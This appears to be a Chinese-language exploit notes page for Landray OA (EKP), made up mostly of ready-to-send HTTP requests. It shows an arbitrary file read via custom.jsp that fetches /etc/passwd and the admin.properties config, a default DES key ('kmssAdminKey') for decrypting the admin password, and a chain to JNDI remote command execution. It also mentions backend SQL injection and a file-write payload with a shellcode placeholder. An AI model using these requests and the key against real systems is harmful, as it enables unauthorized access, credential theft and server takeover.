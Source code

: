 ## 0x01-任意文件读取

   访问/sys/ui/extend/varkind/custom.jsp

x POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1Host: host:8080User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0Accept: */*Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateContent-Type: text/plain;charset=UTF-8Content-Length: 27Connection: closeCookie: JSESSIONID=03699CE5FC0E4D545368FF23E5B32BAF​var={"body":{"file":"file:///etc/passwd"}}


配合任意文件读取漏洞获取敏感信息，读取配置文件得到密钥后访问 admin.do 可利用 JNDI远程命令执行获取权限。

## 0x02 SSRF+jndi

   利用任意文件读取/WEB-INF/KmssConfig/admin.properties配置文件

POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: host:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 27
Connection: close
Cookie: JSESSIONID=03699CE5FC0E4D545368FF23E5B32BAF

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}

由此获得加密的password,蓝凌OA默认为DES加密，且有个默认密钥为 kmssAdminKey，可以拿着password在在线网站上尝试解密
地址  http://tool.chacuo.net/cryptdes/

![图片](https://user-images.githubusercontent.com/118274389/223748827-8fd0d2b2-6ca3-4083-92d2-6a815e25fa21.png)

## 0x03-EKP后台SQL注入

后台地址admin.do

## 0x04-任意文件写入漏洞1

var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=[shellcode]

